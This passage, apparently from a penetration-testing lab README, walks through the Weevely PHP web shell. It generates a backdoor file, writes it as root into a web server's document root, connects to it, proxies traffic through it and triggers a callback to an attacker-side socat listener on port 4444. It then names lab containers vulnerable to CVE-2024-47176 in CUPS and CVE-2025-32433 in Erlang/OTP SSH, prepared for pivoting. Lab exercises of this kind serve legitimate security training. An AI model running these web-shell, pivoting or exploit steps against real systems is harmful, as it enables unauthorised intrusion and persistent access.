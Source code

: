 
## Weevely

```
[[ Weevely~Demo ]]*
cd tools/weevely
./weevely.py generate password ./weevely.php
cat weevely.php | ssh root@lamp 'cat - |sudo tee /var/www/html/weevely.php'
./weevely.py http://lamp/weevely.php password
    #You are now dropped into a pretty cool shell.  Lots of functionality here, but we will only focus on the web proxying
:net_proxy
```

```
[[ Weevely~CallMe ]]
lsof -i tcp:4444
	socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF


lsof -i tcp:8080
    #Lets make sure our http proxy is working correctly

cat /tmp/PROOF
curl  -x http://127.0.0.1:8080 "http://linux:80/send-packet"  -H 'Content-Type: application/json' --data-raw '{"ip":"'kali'","port":"'4444'","protocol":"'tcp'"}'
    #I tried fixing this up with proxychains and callMe.sh, but I got some errors.  This is sufficient to demonstrate we can proxy through with Weevely.
cat /tmp/PROOF
```

### Clean up

```
pkill weevely.py
lsof -i tcp:8080
```


### Exploitation

#### Linux exploitation

The linux machine at 10.X.22.50 is vulnerable to CVE-2024-47176, a UDP-based exploit against CUPS 2.4.2 and possibly earlier versions.

It is also vulnerable to CVE-2025-32433 on port 2222. CVE-2025-32433 is an unauthenticated RCE against the SSH server for Erlang/OTP.

Both vulnerabilities are hosted in docker containers through Vulhub. Netcat, curl and socat have been installed in the container to allow for more pivoting.

See `~/tools/exploits/` for the proof of concept exploits.

